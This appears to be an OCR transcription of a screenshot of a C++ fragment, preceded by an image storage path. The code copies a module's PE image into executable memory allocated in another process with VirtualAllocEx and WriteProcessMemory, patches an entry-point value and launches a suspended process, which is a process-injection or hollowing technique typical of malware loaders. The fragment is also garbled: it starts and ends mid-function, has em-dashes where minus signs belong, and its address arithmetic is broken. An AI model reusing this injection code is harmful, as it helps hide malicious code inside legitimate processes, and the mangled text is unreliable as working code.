 ```cpp
}

IMAGE_DOS_HEADER idh;
IMAGE_NT_HEADERS inth;
IMAGE_SECTION_HEADER ish;

DWORD dwRead = 0;

ReadProcessMemory(hProcess, (LPVOID)pe.modBaseAddr, &idh, sizeof(idh), &dwRead);
ReadProcessMemory(hProcess, (LPVOID)(pe.modBaseAddr + idh.e_lfanew), &inth, sizeof(inth), &dwRead);

LPVOID lpBaseAddress = VirtualAllocEx(hProcess, NULL, inth.OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

if (lpBaseAddress == NULL)
{
return false;
}

if (!WriteProcessMemory(hProcess, lpBaseAddress, (LPVOID)pe.modBaseAddr, inth.OptionalHeader.SizeOfHeaders, &dwRead))
{
return false;
}

for (int i = 0; i < inth.FileHeader.NumberOfSections; i++)
{
ReadProcessMemory(hProcess, (LPVOID)(pe.modBaseAddr + idh.e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER))), &ish, sizeof(ish), &dwRead);
WriteProcessMemory(hProcess, (LPVOID)((DWORD)lpBaseAddress + ish.VirtualAddress), (LPVOID)((DWORD)pe.modBaseAddr + ish.PointerToRawData), ish.SizeOfRawData, &dwRead);
}

DWORD dwEntrypoint = (DWORD)pe.modBaseAddr + inth.OptionalHeader.AddressOfEntryPoint;
DWORD dwOffset = (DWORD)lpBaseAddress — inth.OptionalHeader.ImageBase + dwEntrypoint;

if (!WriteProcessMemory(hProcess, (LPVOID)(lpBaseAddress + dwEntrypoint — (DWORD)pe.modBaseAddr), &dwOffset, sizeof(DWORD), &dwRead))
{
return false;
}

CloseHandle(hProcess);

break;
}
} while (Process32Next(hSnapshot, &pe));
}

CloseHandle(hSnapshot);

STARTUPINFO si;
PROCESS_INFORMATION pi;

ZeroMemory(&si, sizeof(si));
ZeroMemory(&pi, sizeof(pi));

if (!CreateProcess(NULL, szSourceProcessName, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi))
{
return false;
}

```